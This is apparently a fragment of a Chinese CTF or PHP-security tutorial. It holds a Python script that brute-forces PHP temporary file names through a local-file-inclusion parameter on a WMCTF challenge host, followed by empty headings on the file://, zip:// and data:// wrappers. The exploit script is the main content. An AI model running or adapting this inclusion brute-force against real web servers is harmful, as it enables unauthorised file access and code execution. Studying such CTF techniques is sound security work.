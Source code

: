 
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string

charset = string.digits + string.letters

host = "web_checkin2.wmctf.wetolink.com"
port = 80
base_url = "http://%s:%d" % (host, port)


def brute_force_tmp_files():
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = i + j + k + l + m + n
                            url = "%s/index.php?content=/tmp/php%s" % (
                                base_url, filename)
                            print url
                            try:
                                response = requests.get(url)
                                if 'flag' in response.content:
                                    print "[+] Include success!"
                                    return True
                            except Exception as e:
                                print e
    return False


def main():
    brute_force_tmp_files()


if __name__ == "__main__":
    main()
```

## 十、file协议

## 十一、zip://，bzip://, zlib:// 协议

## 十二、data:// 协议

